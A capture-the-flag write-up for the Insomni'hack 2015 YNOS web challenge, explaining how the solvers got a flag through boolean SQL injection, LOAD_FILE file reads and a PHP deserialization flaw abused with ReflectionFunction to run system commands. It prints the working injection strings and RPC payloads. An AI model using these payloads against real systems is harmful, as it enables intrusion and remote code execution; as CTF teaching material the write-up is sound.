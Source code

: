 # Insomni’hack CTF Teaser 2015: YNOS

**Category:** Web
**Points:** 100
**Author:** clZ
**Description:**

> <https://www.youtube.com/watch?v=O2rGTXHvPCQ>
> <a href="http://www.youtube.com/watch?v=O2rGTXHvPCQ"><img src="http://img.youtube.com/vi/O2rGTXHvPCQ/0.jpg" border="3" width="640" height="480"/></a>
>
> So many hacking scenes, so little sk1llz…
>
> Apparently [this website](http://ynos.teaser.insomnihack.ch/) likes these stupid films. Pwn them and get the flag which is in a pretty obvious file in the webroot.

## Write-up

by [ichung](https://github.com/ichung) and [mathiasbynens](https://github.com/mathiasbynens)

<http://ynos.teaser.insomnihack.ch/> presents a login screen. Some random guesses reveal we can log in using the username `admin` with password `admin`. Now we can browse artists, films, and directors. Clicking any of those links triggers an Ajax request to `/INSO.RPC` with some JSON-formatted data:

```bash
$ curl -H 'Content-Type: application/json' -H 'Accept: */*' -H 'Cache-Control: no-cache' -H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: AWSELB=CFABFDBD1C5BB6C16340B9340EA064028E4DF570D44D64084C319E70EE8D963FBDB0FBB63151BAE16EB9FFA8E0D4123E34E5D7D9AA1E396E163C4F960FFBFF45E6083CB961; session=fe5e3eddfcad1992c22b98cfd8d3e5b3' --data-binary '{"c":{"name":"page"},"a":{"name":"render","params":{"name":"artists"}}}' 'http://ynos.teaser.insomnihack.ch/INSO.RPC'
<fieldset>

<!-- Form Name -->
<legend>Artists</legend>


<ul class="list-group">
  <li class="list-group-item">Jonny Lee Miller</li>
  <li class="list-group-item">Angelina Jolie</li>
  <li class="list-group-item">Jesse Bradford</li>
  <li class="list-group-item">Matthew Lillard</li>
  <li class="list-group-item">Laurence Mason</li>
  <li class="list-group-item">Fisher Stevens</li>
</ul>

</fieldset>
```

### By team "curryboys" - Istvan Chung, Husayn Karimi, William Marshall

This one boils down to a boolean SQL injection attack and a code
execution from a custom PHP deserialization function. I noticed by
using Firebug that the main login screen encodes the username and
password as JSON in a POST request to /INSO.RPC on the server, in the format

```
{"c":{"name":"user"},"a":{"name":"login","params":"username|password"}}
```

Although I didn't know it at the time, it turns out that this is in fact
the serialized format of a `c`lass called `user`, requesting the
`a`ction `login`, a function to be called with the given parameters.
Placing the string `' OR 1=1 --` in for username allowed me to login and
get a session cookie quite easily. However, all this lets us do is make
another call of the form

```
{"c":{"name":"page"},"a":{"name":"render","params":"home"}}
```

(where we can substitute `"artists"`, `"films"`, `"directors"`, or
`"logout"` instead of `"home"`). Unfortunately, none of those pages are
of any use, so I went back to the original SQL injection. The challenge
states that the flag is in an "obvious" file in the webroot, so I
decided that I'd try to find where that was on the server. Since we can
get binary information out of the SQL injection (login failed or
succeeded), we can test for the presence of files using the query

```
LOAD_FILE('/path/to/file') IS NOT NULL
```

I managed to find `/etc/apache2/apache2.conf`, indicating that we were
looking at an Apache 2 server, and through trial and error eventually
found the existence of `/var/www/html/index.php`. Quick testing showed
that `flag.txt`, `flag`, `FLAG`, etc were not present, so I used binary
search to brute-force first the length, and then the contents of
`index.php` and `INSO.RPC` character-by-character, which contain
references to `classes.php` and `functions.php`, which I read out as
well. `functions.php` is reproduced here:

```
<?php

function parseParams($params) {
  if(is_array($params)) {
    return $params;
  }
  else {
    return explode("|",$params);
  }
}

function myDeserialize($object) {
  global $session;
  $class = $object["c"];
  $action = $object["a"];
  $cname = $class["name"];
  $cparams = Array();
  if(isset($class["params"])) {
    $cparams = $class["params"];
  }
  $my_obj = new $cname($cparams);
  $aname = $action["name"];
  $aparams = Array();
  if(isset($action["params"])) {
    $aparams = parseParams($action["params"]);
  }

  call_user_func_array(array($my_obj,$aname),$aparams);

}

?>
```

`myDeserialize` is called by INSO.RPC to handle every incoming request.
It lets us create an instance of any class we desire with any
constructor parameters, and then call any method on that class with any
parameters. We'd like to just call a function like `system`, but
`system` isn't the method of any class. In addition, the classes in
`classes.php` appeared to be useless for locating the flag. However,
the PHP built-in class [`ReflectionFunction`][rf] comes to the rescue, as
its `invoke` method lets us call the function we supply in the
constructor. We can use the serialization vulnerability to make the
call

```
new ReflectionFunction("system").invoke("ls")
```

We serialize this into

```
{"c":{"name":"ReflectionFunction", "params":"system"},
 "a":{"name":"invoke","params":"ls"}}
```

and we get the celebration-inducing output

```
INSO.RPC
___THE_FLAG_IS_IN_HERE___
___THE_FLAG_IS_IN_HERE___.save
artists.php
bootstrap.min.css
bootstrap.min.js
classes.php
directors.php
films.php
functions.php
home.php
index.php
jquery-2.1.1.min.js
login.php
logout.php
preload.php
```

Changing `ls` to `cat ___THE_FLAG_IS_IN_HERE___` gives us our flag:

```
INS{Gotta_L0ve_l33t_serialization_suff!}
```

[rf]: http://php.net/manual/en/class.reflectionfunction.php

## Other write-ups and resources

* none yet
